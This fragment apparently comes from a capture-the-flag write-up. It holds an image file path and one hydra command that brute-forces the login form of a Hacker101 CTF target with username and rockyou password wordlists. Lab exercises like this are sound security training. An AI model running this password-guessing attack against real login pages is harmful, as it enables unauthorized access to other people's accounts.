 hydra -L /usr/share/wordlists/usernames.txt -P /usr/share/wordlists/rockyou.txt 248fbeb3da473679d25fdea05a98e4e0.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
